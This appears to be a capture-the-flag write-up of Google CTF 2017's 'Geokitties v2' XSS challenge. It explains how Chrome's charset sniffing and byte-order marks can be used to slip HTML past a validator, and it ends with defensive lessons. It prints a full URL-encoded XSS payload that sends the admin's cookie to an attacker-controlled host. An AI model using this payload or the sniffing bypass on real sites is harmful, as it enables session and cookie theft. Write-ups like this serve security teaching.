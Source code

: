 # Write-up: Google CTF 2017 | Geokitties v2

[**Geokitties v2**](https://geokittiesv2.web.ctfcompetition.com/) is an XSS
challenge that comes in the style of a late-90's homepage built by a cat
enthusiast.  The site's only feature is a comment form that permits a "safe"
subset of HTML.  Any supplied comment is immediately reviewed by an automated
admin bot that will click on any link in the comment text. Now the task is to
submit a comment that passes all checks of the deployed HTML validator and at
the same time triggers XSS on the admin's end to exfiltrate a secret flag
cookie.

Interestingly, there is a shortcut to solve this challenge. Instead of
exploiting weaknesses in the HTML parser or the validator, we can take
advantage of Google Chrome's lax charset sniffing to simply bypass parts the
validation process.

## The HTML validator

The application is written in Node.js and uses the
[`htmlparser2`](https://github.com/fb55/htmlparser2) module to parse each
comment's HTML code. The validator then roughly takes these steps to ensure
that the supplied HTML is safe:

- Only allow HTML tags from a whitelist (`p`, `a`, `b`, `img`, `br`, `i`) to
  prevent dangerous tags with side effects (e.g. `<script>` or `<iframe>`).
- Exclude all `on.*` event handler attributes (e.g. to prevent an `onclick`
  event attached to an otherwise innocuous `<a>` link).
- Allow an `href` attribute only if the value starts with `http[s]:` to prevent
  XSS via pseudo schemes such as `javascript:` or `data:`.

One possible attack approach here is to examine the parser's handling of
duplicate attributes and attributes that are written in mixed case or
interspersed with unexpected Unicode glyphs. Other ideas include supplying an
excessive amount of attributes or using ambiguous formatting – e.g. by mixing
different types of quotes, or by finding a character that the application's
parser interprets as whitespace while the browser sees it as part of an
identifier.

## A different approach: Charset sniffing

But luckily we don't need to examine the parser implementation to solve the
challenge. Instead, we take advantage of the fact that the site is served as
`text/html`, but lacks a charset declaration. In such a case, browsers employ
different heuristics to *guess* the intended charset. But while convenient,
charset sniffing can become unpredictable quickly.  E.g., Chrome interprets
`data:text/html,%AA%BB`as being encoded in the Chinese `Big5` charset, while
`data:text/html,%00%BB` is sniffed as UTF-16LE, although two bytes hardly allow
a reliable determination.

For this challenge, we mislead Chrome to detect UTF-16BE (Big Endian) by
using the byte sequence `\x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x`. In
UTF-16, Unicode code points are encoded in chunks of at least 16 bits. E.g.,
the character `A` (which is encoded in UTF-8 as `\x41`) needs to be encoded as
`\x00\x41` in UTF-16BE (or `\x41\x00` in UTF-16LE).  Consequently, the document
`data:text/html;charset=utf-16be,<br>` doesn't yield a single `<br>` tag but
results in the two Unicode glyphs `\u3C62` and `\u723E`. We can exploit this
behavior to make the browser "swallow" sequences that appear as parts of the
HTML syntax in UTF-8 but don't have an effect in a different charset. This way
we can ultimately inject arbitrary tags outside the parser's whitelist.

The format of our comment looks like this:

    \x11x\x12x\x13x\x14x\x15x\x16x\x17x\x18x\x19x<a href="http:$payload">foo</a>

This comment is validated by the application in UTF-8 but displayed in the
browser in UTF-16BE. So, any angle brackets and tags that appear inside the
`href` attribute value would be considered secure by the validator, while the
browser doesn't recognize the `<a>` tag in the fist place. At `$payload` we can
then simply inject arbitrary HTML code in UTF-16BE. That is, if we have an
ASCII-based payload, we just need to pad it with null bytes and make sure it
doesn't interfere with the double quotes of the original tag. To exfiltrate the
flag, we then just issue a redirect to an attacker-controlled domain with the
cookie attached.

So, the final URL-encoded sequence could look like this:

    %11x%12x%13x%14x%15x%16x%17x%18x%19x%3Ca%20href%3D%22http%3A%00<%00a%00 %00h%00r%00e%00f%00=%00j%00a%00v%00a%00s%00c%00r%00i%00p%00t%00:%00l%00o%00c%00a%00t%00i%00o%00n%00=%00'%00h%00t%00t%00p%00s%00:%00/%00/%00a%00t%00t%00a%00c%00k%00e%00r%00.%00s%00i%00t%00e%00/%00'%00%%002%00B%00d%00o%00c%00u%00m%00e%00n%00t%00.%00c%00o%00o%00k%00i%00e%00>%00f%00o%00o%00<%00/%00a%00>%22%3e

For readability, this is the sequence again with non-printable characters
replaced by spaces:

     x x x x x x x x x <a href="http: < a   h r e f = j a v a s c r i p t : l o c a t i o n = ' h t t p s : / / a t t a c k e r . s i t e / ' + d o c u m e n t . c o o k i e > f o o < / a >">

With that payload, we will receive the following flag at
`https://attacker.example/`:

    CTF{i_HoPe_YoU_fOunD_tHe_IntEndeD_SolUTioN_tHis_Time}

It's worth noting that not all browsers perform the same lax charset sniffing
as Google Chrome does – e.g., the trick wouldn't work in Firefox. But
fortunately, the admin bot is implemented as a headless instance of Google
Chrome.

## Another idea: Byte order marks

Curiously, the application almost fell for a different trap that would even
have defeated an explicit charset declaration. An attacker who controls the
first bytes in a document can inject a BOM (byte order mark) to override the
specified charset – even if it [originates from a header declaration](https://www.w3.org/International/questions/qa-byte-order-mark):

> Changes introduced with HTML5 mean that the byte-order mark overrides any
encoding declaration in the HTTP header when detecting the encoding of an HTML
page.

The BOM for UTF-16BE is `\xFE\xFF`, so this document is encoded in UTF-16BE,
despite being declared as UTF-8:

    data:text/html;charset=utf-8,%FE%FFfoo

But unfortunately, this technique doesn't work in the challenge because BOMs
aren't preserved by the application (e.g.,`\xFF` is converted to `\xEF\xBF\xBD`
on the way).

## Lessons learned

Web applications should always declare a charset explicitly and not rely on
automated detection by browsers. The reason is that different charset sniffing
techniques make it hard to predict browser behavior. Also, an attacker should
not be able to control the first few bytes in a document. Depending on the
implementation, we otherwise facilitate charset and content-type sniffing
attacks.
